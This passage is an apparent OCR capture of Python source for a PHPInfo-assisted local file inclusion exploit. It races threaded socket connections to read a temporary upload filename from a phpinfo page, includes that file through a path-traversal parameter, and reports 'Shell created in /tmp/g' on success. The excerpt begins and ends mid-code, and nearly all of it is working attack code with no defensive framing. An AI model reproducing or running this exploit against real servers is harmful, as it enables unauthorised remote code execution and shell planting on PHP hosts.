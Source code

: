 ```python
\r
%s
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    fn = 'cf=/../../../../../../../' + fn
    s2.send(lfireq % (host,len(fn),fn))
    d = s2.recv(4096)
    s.close()
    s2.close()
    #print(d)

    if d.find(tag) != -1:
        print(d)
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
```